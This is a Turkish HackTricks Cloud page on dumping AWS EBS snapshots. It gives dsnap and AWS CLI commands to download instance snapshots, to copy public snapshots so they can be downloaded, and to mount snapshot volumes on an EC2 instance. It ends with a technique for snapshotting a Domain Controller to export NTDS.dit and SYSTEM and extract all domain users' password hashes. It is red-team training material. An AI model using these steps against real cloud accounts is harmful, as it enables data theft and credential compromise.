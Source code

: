 # AWS - EBS Snapshot Dump

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Bir snapshot'ı yerel olarak kontrol etme
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Not** `dsnap` kamu anlık görüntülerini indirmenize izin vermeyecektir. Bunu aşmak için, anlık görüntüyü kişisel hesabınıza kopyalayabilir ve onu indirebilirsiniz:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Bu teknik hakkında daha fazla bilgi için orijinal araştırmaya bakın [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Bunu Pacu ile [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) modülünü kullanarak yapabilirsiniz.

## AWS'de bir anlık görüntüyü kontrol etme

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Kontrolünüz altındaki bir EC2 VM'ye bağlayın** (yedek kopyanın bulunduğu bölgeyle aynı bölgede olmalıdır):

Adım 1: EC2 –> Volumes bölümüne giderek tercih ettiğiniz boyut ve türde yeni bir hacim oluşturulmalıdır.

Bu işlemi gerçekleştirebilmek için şu komutları izleyin:

* EC2 örneğine eklemek için bir EBS hacmi oluşturun.
* EBS hacminin ve örneğin aynı bölgede olduğundan emin olun.

Adım 2: Oluşturulan hacme sağ tıklayarak "attach volume" seçeneği seçilmelidir.

Adım 3: Örnek metin kutusundan örnek seçilmelidir.

Bu işlemi gerçekleştirebilmek için aşağıdaki komutu kullanın:

* EBS hacmini ekleyin.

Adım 4: EC2 örneğine giriş yapın ve `lsblk` komutunu kullanarak mevcut diskleri listeleyin.

Adım 5: Hacmin herhangi bir verisi olup olmadığını kontrol etmek için `sudo file -s /dev/xvdf` komutunu kullanın.

Yukarıdaki komutun çıktısı "/dev/xvdf: data" gösteriyorsa, hacim boştur.

Adım 6: Hacmi ext4 dosya sistemine formatlamak için `sudo mkfs -t ext4 /dev/xvdf` komutunu kullanın. Alternatif olarak, `sudo mkfs -t xfs /dev/xvdf` komutunu kullanarak xfs formatını da kullanabilirsiniz. Lütfen ya ext4 ya da xfs kullanmanız gerektiğini unutmayın.

Adım 7: Yeni ext4 hacmini bağlamak için istediğiniz bir dizin oluşturun. Örneğin, "newvolume" adını kullanabilirsiniz.

Bu işlemi gerçekleştirebilmek için `sudo mkdir /newvolume` komutunu kullanın.

Adım 8: Hacmi "newvolume" dizinine bağlamak için `sudo mount /dev/xvdf /newvolume/` komutunu kullanın.

Adım 9: "newvolume" dizinine geçin ve hacim bağlamasını doğrulamak için disk alanını kontrol edin.

Bu işlemi gerçekleştirebilmek için şu komutları kullanın:

* `/newvolume` dizinine geçin.
* Disk alanını kontrol etmek için `df -h .` komutunu kullanın. Bu komutun çıktısı "newvolume" dizinindeki boş alanı göstermelidir.

Bunu Pacu ile `ebs__explore_snapshots` modülünü kullanarak yapabilirsiniz.

## AWS'de bir anlık görüntüyü kontrol etme (cli kullanarak)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Gölge Kopyası

**`EC2:CreateSnapshot`** iznine sahip herhangi bir AWS kullanıcısı, **Domain Controller'ın bir anlık görüntüsünü** oluşturarak ve bunu kontrol ettikleri bir örneğe monte ederek tüm alan kullanıcılarının hash'lerini çalabilir ve **NTDS.dit ve SYSTEM** kayıt hives dosyasını Impacket'in secretsdump projesi ile kullanmak üzere dışa aktarabilir.

Bu aracı saldırıyı otomatikleştirmek için kullanabilirsiniz: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) veya bir anlık görüntü oluşturduktan sonra önceki tekniklerden birini kullanabilirsiniz.

## Referanslar

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
